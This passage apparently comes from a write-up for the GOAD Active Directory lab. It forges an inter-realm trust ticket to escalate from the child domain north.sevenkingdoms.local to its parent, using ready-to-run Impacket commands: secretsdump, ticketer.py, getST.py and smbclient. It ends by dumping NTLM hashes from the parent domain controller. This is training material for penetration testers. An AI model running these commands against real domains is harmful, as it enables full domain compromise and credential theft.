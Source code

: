 
## Trust ticket - forge inter-realm TGT

- Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket (a very good explanation and examples with Mimikatz can be found here : [https://adsecurity.org/?p=1588](https://adsecurity.org/?p=1588))

- The trust key can be found by targeting the netbios name of the domain on the ntds

```bash
secretsdump -just-dc-user 'SEVENKINGDOMS$' \
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11
```

![trusts_key.png](/assets/blog/GOAD/trusts_key.png)

- Now we got the trust key we can forge the ticket just like we done with the krbtgt user hash but this time we will set the spn : krbtgt/parent_domain

```bash
ticketer.py -nthash cef54bd576fc6054870d8d8cea5c069c \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 -spn krbtgt/sevenkingdoms.local trustfakeuser
```

![trust_create_trust_ticket.png](/assets/blog/GOAD/trust_create_trust_ticket.png)

- Now we will use the forged TGT to ask a ST on the parent domain

```bash
export KRB5CCNAME=/workspace/trusts/trustfakeuser.ccache   
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustfakeuser@sevenkingdoms.local -debug
```

![trust_trust_ticket_getst.png](/assets/blog/GOAD/trust_trust_ticket_getst.png)

- And now we can use our service ticket :)
- connect with smbclient

```bash
export KRB5CCNAME=/workspace/trusts/trustfakeuser@sevenkingdoms.local@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
smbclient.py -k -no-pass trustfakeuser@kingslanding.sevenkingdoms.local
```

![trust_trust_ticket_smbclient.png](/assets/blog/GOAD/trust_trust_ticket_smbclient.png)

- or even dump secrets

```bash
secretsdump -k -no-pass -just-dc-ntlm trustfakeuser@kingslanding.sevenkingdoms.local
```

![trust_trust_ticket_secretsdump.png](/assets/blog/GOAD/trust_trust_ticket_secretsdump.png)
